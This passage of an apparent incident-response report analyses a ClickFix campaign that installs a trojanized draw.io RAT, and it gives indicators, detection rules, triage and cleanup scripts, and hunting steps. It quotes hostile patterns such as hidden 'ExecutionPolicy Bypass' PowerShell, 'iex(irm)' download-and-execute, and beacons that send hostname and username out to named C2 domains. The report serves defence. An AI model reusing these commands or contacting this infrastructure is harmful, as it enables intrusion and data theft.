bfcd61c6b2dc98354f1a1a6e20a3d61c94530f2c39f3f4c708252da4db57ba9f   draw.io.exe           (genuine, JGraph signed)
```

### Disk

```
%APPDATA%\setup.txt                         victim ID, 8 chars [0-9a-z]
%LOCALAPPDATA%\Microsoft\Cache\demo.log     stage 2 decoy log
%TEMP%\runner.ps1                           stage 3
%TEMP%\update26.zip                         deleted after extraction
%LOCALAPPDATA%\UpdateApp\                   install folder
%LOCALAPPDATA%\UpdateApp\draw.io.exe
%LOCALAPPDATA%\UpdateApp\resources\app.asar
%TEMP%\<unix_ms>\                           created per task.files task
```

### Persistence (Windows)

Look for entries pointing to `%LOCALAPPDATA%\UpdateApp\draw.io.exe` in:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run\
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\   (.lnk shortcuts)
```

`setLoginItemSettings({openAtLogin:true, openAsHidden:false})` typically creates a value in `HKCU\...\Run` with AppUserModelID `com.squirrel.drawio.draw.io` or similar. The exact form varies by Squirrel version.

### Processes

```
Parent: explorer.exe
Child:  powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File %TEMP%\runner.ps1

Parent: powershell.exe
Child:  draw.io.exe (from %LOCALAPPDATA%\UpdateApp\)

Process path: *\AppData\Local\UpdateApp\draw.io.exe
              (legitimate drawio installs to Program Files, not AppData)
```

### Behavior

```
- HTTPS POST to chimefusion[.]com every 65 seconds
- Exfil JSON array: [uuid, hostname, username]
- PowerShell with explorer.exe parent, cmdline contains `iex` and `irm`
- Electron application invoking child_process.exec()
- Base64 files written to %TEMP%\<13_digits>\
- Autorun via setLoginItemSettings (creates value in HKCU\...\Run)
- finally{} block with dropper in PS1 script
- Global `copy` listener in delivery-page JS
- 8-char alphanumeric UUID in setup.txt
```

---

## Detection rules

### Sigma

#### cf.001. PowerShell stager from the Run dialog

```yaml
title: ClickFix PowerShell stager (irm/iex from Run)
id: cf-001
status: experimental
description: |
    PowerShell stager from a ClickFix campaign launched from the Run dialog.
    Uses irm + iex. ParentImage is explorer.exe (typical of Win+R).
tags: [attack.execution, attack.t1059.001, attack.t1204.002]
logsource: { product: windows, category: process_creation }
detection:
  selection_parent: { ParentImage|endswith: '\explorer.exe' }
  selection_proc:   { Image|endswith: '\powershell.exe' }
  selection_cmd:    { CommandLine|contains|all: ['iex', 'irm'] }
  filter_admin:     { User|contains: 'SYSTEM' }
  condition: all of selection_* and not filter_admin
falsepositives:
  - Legitimate admin scripts launched from Win+R
level: high
```

#### cf.002. RAT file installation

```yaml
title: ClickFix UpdateApp folder, setup.txt and demo.log
id: cf-002
logsource: { product: windows, category: file_event }
detection:
  any_of:
    s1: { TargetFilename|contains: '\AppData\Local\UpdateApp\' }
    s2: { TargetFilename|contains: '\AppData\Local\Microsoft\Cache\demo.log' }
    s3: { TargetFilename|contains: '\AppData\Local\Temp\runner.ps1' }
    s4: { TargetFilename|contains: '\AppData\Local\Temp\update26.zip' }
    s5: { TargetFilename|endswith: '\AppData\Roaming\setup.txt' }
  condition: any_of
falsepositives:
  - Legitimate drawio (official drawio installs to Program Files, not AppData)
level: critical
```

#### cf.003. DNS to ClickFix infrastructure

```yaml
title: drawio.exe beaconing to ClickFix infrastructure
id: cf-003
logsource: { product: zeek, category: dns }
detection:
  selection:
    query:
      - 'chimefusion.com'
      - 'ccudmcx.xyz'
  condition: selection
level: critical
```

#### cf.004. Autorun in HKCU\Run pointing to UpdateApp

```yaml
title: Electron autorun from non-standard path (UpdateApp)
id: cf-004
logsource: { product: windows, category: registry_event }
detection:
  selection:
    EventType: SetValue
    TargetObject|contains: 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
    Details|contains:
      - 'draw.io.exe'
      - 'UpdateApp'
  condition: selection
falsepositives:
  - drawio manually installed to a non-standard path
level: high
```

### YARA

```yara
rule ClickFix_Electron_RAT_DrawIO
{
    meta:
        author      = "DFIR"
        description = "Trojanized drawio.desktop electron.js (RAT loader, chimefusion C2)"
        date        = "2026-05-04"
        sha256      = "0642708ec7c25dec3168f1ab275a29bfd3cf69fe3afc3d5c6eadfa6750102883"
    strings:
        $alpha     = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/="  // inverted base64 alphabet
        $c2        = "chimefusion.com" ascii wide nocase
        $rejcert   = "rejectUnauthorized" ascii wide
        $login     = "setLoginItemSettings" ascii wide
        $beacon    = "65000" ascii
        $beacon2   = "65e3" ascii
        $rat_path  = "UpdateApp" ascii wide
        $rat_log   = "Microsoft\\Cache" ascii wide
        $rat_uuid  = "setup.txt" ascii wide
        $obf1      = "WQf3W6RcUta"      // first array entry
        $obf2      = "rMFLjP"
        $obf3      = "ViApjp"
    condition:
        $c2 or
        (3 of ($rat_*)) or
        (any of ($alpha, $obf1, $obf2, $obf3) and $login) or
        (uint16(0) == 0x4b50 and $c2)               // ZIP containing the domain
}

rule ClickFix_PS1_Stager_Finally
{
    meta:
        author      = "DFIR"
        description = "PS1 stager with finally{} abuse and download from ccudmcx"
    strings:
        $finally  = "} finally {" ascii nocase
        $runner   = "runner.ps1" ascii
        $bypass   = "ExecutionPolicy Bypass" ascii
        $hidden   = "WindowStyle Hidden" ascii
        $download = "ccudmcx" ascii nocase
        $demo_log = "demo.log" ascii
    condition:
        $finally and $runner and $bypass and $hidden and ($download or $demo_log)
}
```

### Splunk SPL

```spl
# PowerShell stager with Script Block Logging (Event 4104)
index=windows EventCode=4104
| search ScriptBlockText="*iex*" ScriptBlockText="*irm*"
| eval risk=if(like(ScriptBlockText,"%ccudmcx%") OR like(ScriptBlockText,"%chimefusion%"),
             "CRITICAL","HIGH")
| table _time, ComputerName, UserID, ScriptBlockText, risk
| sort -_time

# DNS to campaign domains
index=dns query IN ("chimefusion.com","ccudmcx.xyz")
| stats count by src_ip, query, _time
| sort -_time

# Hidden PowerShell with download capability
index=windows EventCode=4688
| search NewProcessName="*powershell*"
    ProcessCommandLine="*WindowStyle*Hidden*"
    ProcessCommandLine="*ExecutionPolicy*Bypass*"
| table _time, ComputerName, SubjectUserName, ProcessCommandLine

# RAT file creation (Sysmon EID 11)
index=windows EventCode=11
| search TargetFilename="*\\UpdateApp\\draw.io*"
    OR TargetFilename="*runner.ps1*"
    OR TargetFilename="*\\Microsoft\\Cache\\demo.log*"
| table _time, ComputerName, TargetFilename

# HKCU autorun modification
index=windows EventCode=13
| search TargetObject="*CurrentVersion\\Run*" Details="*draw.io*"
| table _time, ComputerName, SubjectUserName, TargetObject, Details

# Periodic ~65s pattern from endpoint towards C2
index=network dest_host="chimefusion.com" http_method="POST"
| timechart span=1m count by src_ip
| where count > 1
```

### Microsoft Sentinel (KQL)

```kql
// Campaign DNS
DnsEvents
| where Name in ("chimefusion.com", "ccudmcx.xyz")
| project TimeGenerated, Computer, ClientIP, Name, QueryType
| order by TimeGenerated desc

// Hidden PowerShell with download capability
SecurityEvent
| where EventID == 4688
| where CommandLine has_all ("powershell", "Hidden", "Bypass")
| where CommandLine has_any ("irm", "Invoke-RestMethod", "WebRequest")
| project TimeGenerated, Computer, Account, CommandLine

// RAT installation
DeviceFileEvents
| where FolderPath contains "UpdateApp"
    or FolderPath contains @"Microsoft\Cache\demo.log"
| project TimeGenerated, DeviceName, InitiatingProcessAccountName,
          ActionType, FileName, FolderPath

// Persistence
DeviceRegistryEvents
| where RegistryKey contains @"CurrentVersion\Run"
| where RegistryValueData contains "draw.io"
| project TimeGenerated, DeviceName, InitiatingProcessAccountName,
          RegistryKey, RegistryValueName, RegistryValueData

// Periodic HTTPS POST beacon
DeviceNetworkEvents
| where RemoteUrl contains "chimefusion.com"
    or InitiatingProcessFolderPath contains "UpdateApp"
| summarize count(), min(Timestamp), max(Timestamp),
            avg(SentBytes) by DeviceName, RemoteUrl, InitiatingProcessFileName
| where count_ > 5
```

### Elastic EQL

```eql
process where event.type == "start"
  and process.parent.name == "explorer.exe"
  and process.name == "powershell.exe"
  and process.command_line like~ "*iex*irm*"

process where event.type == "start"
  and process.executable like~ "*\\AppData\\Local\\UpdateApp\\draw.io.exe"

registry where event.type in ("creation", "change")
  and registry.path like~ "*\\CurrentVersion\\Run*"
  and registry.data.strings like~ "*UpdateApp*"
```

### Suricata

```
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"ClickFix Beacon C2 chimefusion.com";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri; content:"/u/";
    http.host; content:"chimefusion.com";
    classtype:trojan-activity;
    sid:9000001; rev:1;
)

alert dns any any -> any any (
    msg:"ClickFix campaign domain";
    dns.query; content:"chimefusion.com"; nocase;
    classtype:trojan-activity;
    sid:9000002; rev:1;
)

alert dns any any -> any any (
    msg:"ClickFix staging domain";
    dns.query; content:"ccudmcx.xyz"; nocase;
    classtype:trojan-activity;
    sid:9000003; rev:1;
)
```

---

## Mapping to MITRE ATT&CK

| Tactic | Technique | Implementation |
|---|---|---|
| Resource Development | T1583.001 Acquire Infrastructure: Domains | `ccudmcx[.]xyz`, `chimefusion[.]com` |
| Resource Development | T1583.003 VPS / CDN | Cloudflare in front of both domains |
| Initial Access | T1189 Drive-by Compromise | legitimate site serving malicious HTML |
| Execution | T1059.001 PowerShell | `iex(irm ...)`, `runner.ps1` |
| Execution | T1059.007 JavaScript | `electron.js` Node, `eval` tasks |
| Execution | T1204.004 User Execution: Malicious Copy and Paste | victim pastes the command into `Win+R` |
| Persistence | T1547.001 Run Keys / Startup Folder | `app.setLoginItemSettings({openAtLogin:true})` |
| Defense Evasion | T1027.013 Encrypted/Encoded Files | obfuscator.io with custom base64 + RC4 |
| Defense Evasion | T1036.005 Masquerading | `draw.io.exe`, `Microsoft\Cache\demo.log`, `setup.txt` |
| Defense Evasion | T1553.002 Subvert Trust Controls: Code Signing | reuse of JGraph signature, asar not validated |
| Defense Evasion | T1564.003 Hidden Window | `Start-Process -WindowStyle Hidden` |
| Defense Evasion | T1140 Deobfuscate/Decode in memory | `iex(irm)` |
| Defense Evasion | T1070.004 File Deletion | `Remove-Item $zipPath` post extract |
| Command & Control | T1071.001 Web Protocols (HTTPS) | POST JSON over TLS |
| Command & Control | T1090.004 Domain Fronting / CDN | Cloudflare as front |
| Command & Control | T1573.002 Encrypted Channel | standard TLS, no pinning, `rejectUnauthorized:false` |
| Collection | T1115 Clipboard Data | global `copy` listener on the fake page |
| Ingress Tool Transfer | T1105 | `Invoke-WebRequest` (stage 4), `task.files` |
| Discovery | T1082 System Information Discovery | exfiltration of `COMPUTERNAME` and `USERNAME` |
| Exfiltration | T1041 Exfiltration Over C2 Channel | hostname and user in every beacon |
| Impact | T1059 (generic) | arbitrary RCE via `eval()` and `child_process.exec` |

---

## Triage on suspect endpoints

Quick verification script (objective: confirm or rule out in under 30 seconds):

```powershell
# 1. On-disk markers.
$checks = @{
    "RAT binary"    = Test-Path "$env:LOCALAPPDATA\UpdateApp\draw.io.exe"
    "Device UUID"   = Test-Path "$env:APPDATA\setup.txt"
    "Decoy log"     = Test-Path "$env:LOCALAPPDATA\Microsoft\Cache\demo.log"
    "runner.ps1"    = Test-Path "$env:TEMP\runner.ps1"
    "update26.zip"  = Test-Path "$env:TEMP\update26.zip"
    "Autorun HKCU"  = ((Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -EA SilentlyContinue).PSObject.Properties.Value -match "draw\.io") -ne $null
    "Live process"  = (Get-Process | Where-Object { $_.Path -like "*UpdateApp*" }).Count -gt 0
}

$infected = $false
foreach ($c in $checks.GetEnumerator()) {
    $state = if ($c.Value) { "[INFECTED]"; $infected = $true } else { "[CLEAN]   " }
    Write-Host "$state $($c.Key)"
}

if ($infected) {
    $uuid = Get-Content "$env:APPDATA\setup.txt" -EA SilentlyContinue
    Write-Host "`nINFECTED. Isolate immediately." -ForegroundColor Red
    Write-Host "UUID sent to C2: $uuid" -ForegroundColor Red
    $ts = (Get-Item "$env:APPDATA\setup.txt" -EA SilentlyContinue).CreationTime
    if ($ts) {
        $seconds = ((Get-Date) - $ts).TotalSeconds
        $beacons = [math]::Floor($seconds / 65)
        Write-Host "Approximate infection date: $ts"
        Write-Host "Estimated beacons sent: $beacons (1 every 65s)"
    }
}

# 2. Active connections to the C2.
$c2Domains = @("chimefusion.com","ccudmcx.xyz")
Get-NetTCPConnection -State Established -EA SilentlyContinue | ForEach-Object {
    try {
        $rh = [Net.Dns]::GetHostEntry($_.RemoteAddress).HostName
        if ($c2Domains | Where-Object { $rh -match $_ }) {
            Write-Host "[C2 ACTIVE] $rh ($($_.RemoteAddress))" -ForegroundColor Red
        }
    } catch {}
}

# 3. Granular autorun.
Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\*" -ErrorAction SilentlyContinue |
  Where-Object { $_ -match 'UpdateApp|draw\.io' }
Get-ChildItem "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" |
  Where-Object { $_.Name -match 'draw|update' }

# 4. Processes.
Get-CimInstance Win32_Process |
  Where-Object { $_.ExecutablePath -like '*\UpdateApp\*' } |
  Select-Object ProcessId, ExecutablePath, ParentProcessId, CommandLine
```

---

## Containment and remediation

Once infection is confirmed, operational order matters: forensic collection first, then termination and cleanup.

### Collection before cleanup

```powershell
# Process memory dump (procdump, WinPmem, or EDR)
$proc = Get-Process | Where-Object { $_.Path -like "*UpdateApp*" }
# procdump -ma $proc.Id C:\Evidence\drawio_dump.dmp

# Artifacts
New-Item -ItemType Directory C:\Evidence -Force | Out-Null
Copy-Item "$env:LOCALAPPDATA\UpdateApp\"             "C:\Evidence\" -Recurse
Copy-Item "$env:APPDATA\setup.txt"                   "C:\Evidence\" -EA SilentlyContinue
Copy-Item "$env:LOCALAPPDATA\Microsoft\Cache\demo.log" "C:\Evidence\" -EA SilentlyContinue
Copy-Item "$env:TEMP\runner.ps1"                     "C:\Evidence\" -EA SilentlyContinue

# Registry
reg export "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" C:\Evidence\autorun.reg

# Network connections at capture time
Get-NetTCPConnection | Export-Csv C:\Evidence\network_connections.csv -NoTypeInformation

# PowerShell history
Copy-Item (Get-PSReadlineOption).HistorySavePath "C:\Evidence\" -EA SilentlyContinue
```

### Cleanup

```powershell
# Terminate the RAT process
Get-Process | Where-Object { $_.Path -like "*UpdateApp*" } |
    Stop-Process -Force -EA SilentlyContinue

# Remove autorun
Remove-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
    -Name "draw.io" -Force -EA SilentlyContinue

# Remove install
Remove-Item "$env:LOCALAPPDATA\UpdateApp" -Recurse -Force -EA SilentlyContinue

# Remove artifacts
@(
    "$env:APPDATA\setup.txt",
    "$env:TEMP\runner.ps1",
    "$env:TEMP\update26.zip",
    "$env:LOCALAPPDATA\Microsoft\Cache\demo.log"
) | ForEach-Object { Remove-Item $_ -Force -EA SilentlyContinue }

# Remove C2 task drop dirs (13-digit timestamps)
Get-ChildItem $env:TEMP -Directory |
    Where-Object { $_.Name -match '^\d{13}$' } |
    Remove-Item -Recurse -Force -EA SilentlyContinue

Write-Host "Containment complete. Re-verify with the triage script."
```

### Perimeter blocking

```
DNS sinkhole:
  chimefusion.com → 0.0.0.0
  ccudmcx.xyz     → 0.0.0.0

Proxy / firewall:
  Block https://chimefusion.com/*
  Block https://ccudmcx.xyz/*
  Block POST egress from endpoints to those hosts
```

### Reimage recommendation

The `eval()` capability received from the C2 means the real scope of activity executed during dwell time is unknown. If the RAT was active for an extended period:

- Assume secondary payload deployment (stealers, RDP installers, undetonated ransomware).
- Assume theft of browser credentials, local password managers, and OAuth tokens.
- Recommend a full OS reimage for confirmed infections.
- If reimaging is not viable, apply extended monitoring for at least 60 days, privilege reduction, and network segmentation.

---

## Operational recommendations

### Compromised site operator

1. Take the page offline or set maintenance mode while the cleanup is conducted. Assume the attacker maintains access to the CMS or hosting with effective privileges. The presence of the overlay is not the result of a five-minute access.
2. Full CMS audit. The most likely install is WordPress behind Sucuri. Diff over `wp-content/themes/*`, `wp-content/mu-plugins`, plugins, root `index.php`, `.htaccess`. Inspect files with recent timestamps and atypical names, camouflaged PHP payloads, `eval` in plugins, dangling hooks.
3. Purge the WAF cache. The fake page is served with `x-sucuri-cache: HIT`, indicating malicious content is cached. Until the cache is invalidated, visitors will keep receiving the overlay even after origin cleanup.
4. Full credential rotation. Hosting, FTP, SSH, database, CMS panel, API keys, Sucuri and Cloudflare panels. SSH keys for staff with access. Domain registrar account credentials. Enforce mandatory MFA on all administrators.
5. Review access logs for at least 90 days. File uploads, authentications from anomalous IPs, POST attempts to `wp-admin` from atypical geos. The initial vector may have been a vulnerable plugin or leaked credentials and must be closed before going live again.
6. Public communication. Notify users and sector press. Main message: the site was overlaid with a "human verification" page that asks visitors to press `Win+R`, `Ctrl+V`, Enter. Under no circumstances should those steps be followed from a website. Visitors who did so should contact IT.
7. Abuse reports, in parallel, to Cloudflare (`https://abuse.cloudflare.com/`), the `.xyz` registrar (CentralNic / Gen.xyz), Google Safe Browsing, Microsoft SmartScreen, PhishTank, urlscan.io, and the relevant CSIRT.

### Individual victim

1. Immediate machine isolation. Disconnect wired and wireless network.
2. Confirmation with the triage script from the previous section.
3. Assume user-level compromise. During dwell time, the operator could have pushed arbitrary payloads via `task.e`. Theft of session tokens and cookies, local password manager, cryptocurrency, Microsoft 365 or Gmail sessions, and any browser-cached credentials must all be considered compromised. Possible secondary infostealer or RDP installer deployment.
4. Full password rotation and session revocation from a clean device. Revoke OAuth grants, regenerate TOTP, rotate app passwords. If a local password manager is used, assume the database is compromised.
5. Clean Windows reinstall or restoration of a pre-incident image. Partial cleanup is not enough: the operator may have established additional persistence outside the standard trail.

### SOC / EDR

- DNS and egress blocking towards `chimefusion[.]com` and `ccudmcx[.]xyz`.
- WDAC or AppLocker prohibiting binary execution from `%LOCALAPPDATA%\` outside an explicit allowlist. This policy mitigates the chain described and a significant portion of Lumma-style campaigns from the past year.
- Microsoft Defender ASR rules. In particular: "Block execution of potentially obfuscated scripts" (`D1E49AAC-8F56-4280-B9BA-993A6D77406C`) and "Block executable files from running unless they meet a prevalence, age, or trusted list criterion".
- PowerShell in Constrained Language Mode, AMSI active, events 4103 and 4104 forwarded to the SIEM with alerts for `iex` or `Invoke-Expression` combined with `irm` or `Invoke-RestMethod`.
- On sensitive endpoints (non-technical admin profiles), GPO with `NoRun=1` in `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`. Disables the `Win+R` dialog. In most roles it does not generate operational disruption.
- Detection on cmdlines with `iex` and `irm` pointing to TLDs `.xyz`, `.top`, `.shop`, `.online` with recently registered domains. A high-signal, low-friction indicator.

---

## Threat hunting and attribution

### Campaign fingerprint

Characteristics that identify this specific campaign for comparison against future samples:

| Element | Value | Confidence |
|---|---|---|
| Beacon interval | exactly 65,000 ms | high. Atypical value |
| Base offset of strings array | 229 | high |
| Array size | 1,015 entries | medium |
| Obfuscation | RC4 + base64 with lowercase in initial position | high |
| Victim ID file | `%APPDATA%\setup.txt`, 8-char base36 | high |
| Decoy log filename | `demo.log` in `Microsoft\Cache` | high |
| finally{} pattern | benign try{} + finally{} with dropper | high |
| Decoy binary | drawio.desktop v19.0.3 | medium |
| C2 path | `/u/` | low |
| Beacon JSON | `[uuid, hostname, username]` | high |

### Pivoting

```bash
# CT logs
curl "https://crt.sh/?q=chimefusion.com&output=json" | python3 -m json.tool
curl "https://crt.sh/?q=ccudmcx.xyz&output=json"     | python3 -m json.tool

# WHOIS
whois chimefusion.com
whois ccudmcx.xyz

# Reverse IP
curl "https://viewdns.info/reverseip/?host=chimefusion.com&output=json"

# ThreatFox
curl -X POST https://threatfox-api.abuse.ch/api/v1/ \
     -d '{"query":"search_ioc","search_term":"chimefusion.com"}'

# URLhaus
curl -X POST https://urlhaus-api.abuse.ch/v1/host/ \
     -d "host=chimefusion.com"

# VirusTotal: files communicating with the C2
curl "https://www.virustotal.com/api/v3/domains/chimefusion.com/communicating_files" \
     -H "x-apikey: $VT_KEY"

# GitHub: search for public references to the IOCs
# search query: chimefusion.com ccudmcx.xyz

# Censys / Shodan: favicon hash and JARM of the C2
```

The server fingerprint `GET /u/ → 400 application/json + open CORS` is specific enough to produce an identifiable cluster on Censys or Shodan.

### Comparison against reference ClickFix

| Characteristic | This campaign | Reference ClickFix |
|---|---|---|
| Fake Cloudflare widget | yes | very common |
| Clipboard injection + Win+R | yes | defining feature |
| PowerShell `irm`+`iex` | yes | common |
| Electron decoy | yes | rising during 2024-2025 |
| drawio masquerade | yes | observed in multiple campaigns |
| RC4 + base64 obfuscation | yes | common in malicious JS |
| `finally{}` abuse | yes | less common. Possible actor signature |
| Custom HTTP client (no fetch) | yes | less common |
| 65-second beacon | yes | distinctive. Possible actor signature |
| Reuse of legitimate Authenticode signature | yes | uncommon. Hard piece of the attack |

---

## Automated deobfuscation toolkit

Czr.Xploit published the full toolkit at `https://github.com/Czr-Xploit/ClickFix_Extractor`. Three components:

`clickfix_deobfuscate.py`. Extracts the strings array from `electron.js`, identifies key mappings via regex over `bx(idx, key)` patterns, and decodes the literals with modified base64 plus RC4. Categorizes the output into C2/network, filesystem, execution, persistence, and modules.

```bash
python3 clickfix_deobfuscate.py electron.js
python3 clickfix_deobfuscate.py electron.js --verbose
python3 clickfix_deobfuscate.py electron.js --output my_analysis.json
```

`clickfix_ioc_extractor.py`. Reads `deobfuscated_strings.json`, extracts domains, URLs, and paths via regex, hashes samples in bulk, and produces a STIX 2.1 bundle.

```bash
python3 clickfix_ioc_extractor.py \
    --strings deobfuscated_strings.json \
    --samples ./samples/ \
    --stix \
    --output iocs/full_iocs.json
```

`clickfix_infection_check.ps1`. Windows triage via 8 checks: binary in `UpdateApp`, presence of `setup.txt`, `demo.log`, autorun, active connections to C2 domains, processes from `UpdateApp`, 13-digit drop dirs in `TEMP`, and PS1 artifacts.

```powershell
powershell -ExecutionPolicy Bypass -File clickfix_infection_check.ps1
```

Full analysis workflow, assuming you have the ZIP:

```bash
unzip update.zip -d extracted/
npm install -g @electron/asar
asar extract extracted/resources/app.asar ./app_code/
python3 tools/clickfix_deobfuscate.py app_code/electron.js
python3 tools/clickfix_ioc_extractor.py \
    --strings deobfuscated_strings.json \
    --samples ./extracted/ \
    --stix
```

---

## Outstanding work and additional pivoting

- Cross-check on VirusTotal, urlscan.io, Censys/Shodan favicon hash, and CT logs over `chimefusion[.]com`. The fingerprint `GET /u/ → 400 application/json + open CORS` is specific enough to produce useful clustering.
- Controlled beacon reproduction from an isolated environment. Sending a valid body with a generated ID to capture the operator's response and obtain the actual second-stage payload.
- Search for campaigns using equivalent templates. The combination "fake Cloudflare verify + clipboard hijack + iex(irm) to .xyz + trojanized Electron app with drawio" is relatively novel. On MalwareBazaar and VirusTotal it is worth tracking files signed by JGraph Ltd that contain large-sized asar files with hashes different from the official v19.0.3.
- Notification to JGraph Ltd. The publisher signature was not cloned, but the binary is being abused. It would be relevant for them to publish official v19.0.3 hashes for EDR validation, or migrate the desktop build to an Electron version with `enableEmbeddedAsarIntegrityValidation` enabled.

---

## End-user awareness

General operating guideline:

> No legitimate verification system (Cloudflare, Google reCAPTCHA, Microsoft, no provider whatsoever) asks the user to:
>
> 1. Open the `Win+R` dialog.
> 2. Paste a command.
> 3. Run commands in PowerShell or CMD.
>
> Any page that requests any of these steps must be closed and reported to the relevant security team.

Additional notes:

- drawio is downloaded only from `github.com/jgraph/drawio-desktop/releases`.
- Users who executed the instructions on a suspicious page should contact IT immediately and refrain from self-remediation.
- A "Verification ID" in a CAPTCHA is not a real feature. CAPTCHAs do not generate user-visible numeric tokens.
- Real Cloudflare Turnstile verification runs automatically in the browser. It requires no user action beyond a click on a checkbox.

---

## Appendix A. On-disk artifacts

All under `/home/none/Documents/soc/<case>/`:

```
INCIDENT_REPORT.md              this report
deobfuscate.py                  Python decoder (custom base64 + RC4)
arr.json                        extracted strings array (1,015 entries)
deobfuscated_strings.json       full decoded table

index.html                      root served by the compromised site (decompressed)
headers.txt                     HTTP headers from the compromised site

stage2_payload.txt              stage 2 script.ps1
stage2_payload_headers.txt
stage2_ccudmcx.txt              initial 301 response
stage2_headers.txt
c2_beacon_response.txt          C2 response to the test beacon

update.zip                      stage 4 (134 MB)
extracted/                      ZIP contents (without locales/*.pak or LICENSES)
  draw.io.exe
  resources/app.asar
  resources/app-update.yml
  ffmpeg.dll, d3dcompiler_47.dll, libEGL.dll, libGLESv2.dll,
  vulkan-1.dll, vk_swiftshader.dll, vk_swiftshader_icd.json,
  v8_context_snapshot.bin, snapshot_blob.bin, LICENSE.electron.txt
  drawio_authenticode.p7        Authenticode signature extracted from the PE

asar_electron.js                electron.js extracted from the asar (obfuscated)
asar_electron-preload.js
asar_index.html
asar_package.json
asar_disableUpdate.js

electron_decoded.js             electron.js with strings decoded (unformatted)
electron_pretty.js              decoded and beautified electron.js (1,917 lines)
```

## Appendix B. References

- Microsoft Security Blog, *Think before you Click(Fix)*, 2025.08.
- Sophos, *Evil evolution: ClickFix and macOS infostealers*.
- SentinelOne, *Caught in the CAPTCHA: How ClickFix is Weaponizing Verification Fatigue*.
- Splunk, *Beyond The Click: Unveiling Fake CAPTCHA Campaigns*.
- Palo Alto Unit 42, *Fix the Click: Preventing the ClickFix Attack Vector*.
- HHS Sector Alert, *ClickFix Attacks*.
- Fortinet, *From ClickFix to Command: A Full PowerShell Attack Chain*.
- Trend Micro, *KongTuke ClickFix Abuse of Compromised WordPress Sites*.
- Electron Security, *Asar Integrity*, `https://www.electronjs.org/docs/latest/tutorial/asar-integrity`.
- obfuscator.io, string-array + RC4 decoder pattern.
- Czr.Xploit, *ClickFix_Extractor*, `https://github.com/Czr-Xploit/ClickFix_Extractor`.
